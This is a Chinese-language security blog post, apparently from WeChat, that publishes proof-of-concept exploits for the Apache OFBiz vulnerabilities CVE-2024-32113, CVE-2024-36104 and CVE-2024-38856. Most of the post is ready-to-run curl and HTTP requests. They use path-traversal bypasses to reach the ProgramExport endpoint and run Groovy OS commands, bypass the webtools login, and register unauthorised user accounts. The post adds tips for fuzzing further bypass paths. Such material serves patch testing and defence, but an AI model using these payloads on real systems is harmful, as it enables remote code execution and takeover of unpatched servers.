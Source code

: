 #  Apache OfBiz CVE-2024-32113和CVE-2024-36104 漏洞 POC   
 Ots安全   2024-08-07 11:31  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
Apache OfBiz 漏洞  
  
**CVE-2024-32113 的 POC**  
  
USERNAME和参数PASSWORD可以在/ecomseo/AnonContactus界面上提供，任何人都可以公开访问。  
- POC1：远程代码执行  
  
```
curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/ProgramExport' \
--header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
--header 'Accept: */*' \
--header 'Host: 127.0.0.1:8443' \
--header 'Connection: keep-alive' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'USERNAME=t@t.com' \
--data-urlencode 'JavaScriptEnabled=Y' \
--data-urlencode 'PASSWORD=12345' \
--data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
```  
- POC2：可以绕过登录来访问受限制的webtools管理界面。  
  
```
curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/login/' \
--header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
--header 'Accept: */*' \
--header 'Host: 127.0.0.1:8443' \
--header 'Connection: keep-alive' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'USERNAME=t@t.com' \
--data-urlencode 'PASSWORD=12345' \
--data-urlencode 'JavaScriptEnabled=Y'
```  
- POC3：可以注册一个普通用户账号，userLoginId作为用户名。  
  
```
curl --noproxy '*'  -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/createUserLogin' \
--header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
--header 'Accept: */*' \
--header 'Host: 127.0.0.1:8443' \
--header 'Connection: keep-alive' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'USERNAME=t@t.com' \
--data-urlencode 'PASSWORD=12345' \
--data-urlencode 'JavaScriptEnabled=Y' \
--data-urlencode 'enabled=Y' \
--data-urlencode 'partyId=' \
--data-urlencode 'userLoginId=30000' \
--data-urlencode 'currentPassword=12345' \
--data-urlencode 'currentPasswordVerify=12345' \
--data-urlencode 'passwordHint=' \
--data-urlencode 'requirePasswordChange=N' \
--data-urlencode 'securityQuestion=' \
--data-urlencode 'SecurityAnswer=' \
--data-urlencode 'externalAuthId='
```  
  
CVE-2024-36104 的 POC  
- **RCE1**  
  
```
curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/.%2e/.%2e/.%2e/webtools/control/ProgramExport' \
--header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
--header 'Accept: */*' \
--header 'Host: 127.0.0.1:8443' \
--header 'Connection: keep-alive' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'USERNAME=t@t.com' \
--data-urlencode 'JavaScriptEnabled=Y' \
--data-urlencode 'PASSWORD=12345' \
--data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
```  
- **RCE2**  
  
```
curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/..;/..;/..;/webtools/control/ProgramExport' \
--header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
--header 'Accept: */*' \
--header 'Host: 127.0.0.1:8443' \
--header 'Connection: keep-alive' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'USERNAME=t@t.com' \
--data-urlencode 'JavaScriptEnabled=Y' \
--data-urlencode 'PASSWORD=12345' \
--data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
```  
  
PS：;会导致cookie设置异常，需要手动获取cookie。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeUvb9rOomucIY80ImlO4yvgQib6cIaQIsibA3iaia0dibJ8s6bbdd72zMru4ZrfEBCO48gL63TElqaw9A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeUvb9rOomucIY80ImlO4yvUYlEAoJOCvhm5SMXXxtITGB7azia1lJthLVuze25bIvcXF4vxr8TZmg/640?wx_fmt=png&from=appmsg "")  
  
CVE-2024-38856 的 POC  
- 远程代码执行  
  
```
POST /webtools/control/forgotPassword/ProgramExport HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:8443

groovyProgram=throw+new+Exception('id'.execute().text);
```  
  
PS：forgotPassword可以替换成其他请求，可以尝试在 中搜索webapp/webtools/WEB-INF/controller.xml（如图）进行fuzzing，只要请求成功返回success，就可以触发ProgramExport模块中的RCE。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeUvb9rOomucIY80ImlO4yvGTxh96bWOyShBlFSFyWzGN0W8c5TpNOCIPvDYvWR6kMibLFhqic3KJBg/640?wx_fmt=png&from=appmsg "")  
  
```
https://github.com/RacerZ-fighting/CVE-2024-32113-POC
```  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
